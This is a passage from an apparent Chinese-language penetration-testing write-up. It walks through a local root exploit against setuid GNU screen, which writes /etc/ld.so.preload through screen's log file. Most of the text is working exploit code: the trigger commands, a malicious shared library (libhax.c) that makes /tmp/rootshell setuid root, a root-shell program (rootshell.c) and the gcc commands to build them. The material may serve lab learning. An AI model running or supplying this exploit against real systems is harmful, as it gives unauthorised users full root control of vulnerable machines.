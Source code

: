 ```text
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

  

![](https://pic2.zhimg.com/80/v2-cbaf3a9e3225d8deb02c72fa85ee00d1_720w.webp)

  

接着我按照上面的 `POC` 创建了 `libhax.c`、`rootshell.c` 文件，文件内容是：

```text
root@kali:~# cat libhax.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}


root@kali:~# cat rootshell.c 
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

  

![](https://pic1.zhimg.com/80/v2-6626d125392f45782f2e486a058c52d8_720w.webp)

  

随后用 `gcc` 编译他们：

```text
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c
```

  

![](https://pic3.zhimg.com/80/v2-22482166c648ccee08a9aa3f7af32ba2_720w.webp)
